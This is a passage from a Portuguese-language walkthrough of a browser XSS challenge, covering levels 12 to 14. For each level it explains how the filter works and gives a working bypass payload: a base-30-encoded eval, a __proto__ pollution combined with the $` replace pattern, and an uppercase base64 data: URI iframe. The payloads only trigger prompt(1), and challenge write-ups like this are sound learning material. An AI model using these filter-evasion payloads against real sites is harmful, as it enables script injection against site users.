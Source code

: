 Filtra `/`, `%`, `'`, e converte tudo com `encodeURIComponent`. Mas números e `.` são permitidos.

### 💡 Estratégia:

* Codificar "prompt" como número em base 30.

### ✅ Payload:

```js
eval(630038579..toString(30))(1)
```

---

## ✅ Level 13 - `__proto__` + \`$\`\` em replace

### 🧠 Análise:

O campo `source` é filtrado, mas se for deletado, a propriedade de `__proto__` assume. Podemos usar \`$\`\` para injetar depois da string.

### 💡 Estratégia:

* Injetar com `__proto__.source` e usar \`$\`\` para aproveitar o que vem antes no replace.

### ✅ Payload:

```json
{"source":"_-_invalid-URL_-_","__proto__":{"source":"$`onerror=prompt(1)>"}}
```

*(Explora o comportamento do `replace` com padrões especiais)*

---

## ✅ Level 14 - `data:` com base64 + maiúsculas

### 🧠 Análise:

Converte tudo para maiúsculas e bloqueia `&`, `%`. Mas `data:` ainda é permitido e Firefox aceita `BASE64`.

### 💡 Estratégia:

* Codificar um payload inteiro em base64 usando letras maiúsculas válidas.

### ✅ Payload:

```html
"><IFRAME SRC="data:text/html;base64,PHNjcmlwdD5wcm9tcHQoMSk8L3NjcmlwdD4="
```

*(Funciona no Firefox e alguns navegadores que aceitam `BASE64` maiúsculo)*

---